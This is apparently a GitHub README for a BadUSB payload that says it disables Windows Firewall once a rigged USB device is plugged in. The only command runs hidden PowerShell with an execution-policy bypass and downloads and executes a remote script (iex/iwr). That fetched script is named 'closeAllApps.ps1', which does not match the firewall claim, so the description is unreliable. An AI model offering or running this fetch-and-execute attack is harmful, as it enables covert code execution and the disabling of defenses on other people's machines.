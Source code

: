 # Disable Firewall - BadUSB ✅

A script used to disable Windows Firewall.

**Category**: Execution

<div align=center>

<img src="/main/img/logo-repository-2_0.gif" width="600" /><br>
<img src="/main/img/DISCLAIMER.png" width="600" />

</div>

## Description

A script used to disable Windows Firewall.

## Getting Started

### Dependencies

* Windows 10,11

### Executing program

* Plug in your device
* Opens a terminal as Root
* Execute command to disable Firewall

All
```powershell
powershell -w h -ep bypass -Command  "iex (iwr -uri 'https://raw.githubusercontent.com/Zenin0/Glipper_Scripts/main/Windows/CloseAllApps/closeAllApps.ps1').Content"
```
